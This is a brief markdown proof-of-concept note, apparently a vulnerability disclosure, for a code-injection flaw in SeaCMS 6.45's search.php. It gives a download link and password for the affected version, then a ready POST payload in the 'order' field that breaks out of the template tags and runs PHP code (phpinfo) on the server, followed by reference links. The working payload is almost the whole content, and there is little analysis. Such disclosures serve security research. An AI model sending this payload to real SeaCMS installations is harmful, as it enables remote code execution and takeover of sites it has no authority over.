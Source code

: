 ##  Affected Version

 下载地址：

 链接：https://pan.baidu.com/s/1uw_VnxnvG4GGEae4TRsGGw 

 密码：cd48




## POC



`http://127.0.0.1/seacms645/search.php`

`post:searchtype=5&order=}{end if} {if:1)phpinfo();if(1}{end if}`



![](http://opmi2ydgh.bkt.clouddn.com//18-7-5/92423502.jpg)



## References

[https://bbs.ichunqiu.com/thread-35085-1-1.htmlß](https://bbs.ichunqiu.com/thread-35085-1-1.htm)

[http://0day5.com/archives/4249/](http://0day5.com/archives/4249/)

[https://blog.csdn.net/qq_35078631/article/details/76595817](https://blog.csdn.net/qq_35078631/article/details/76595817)



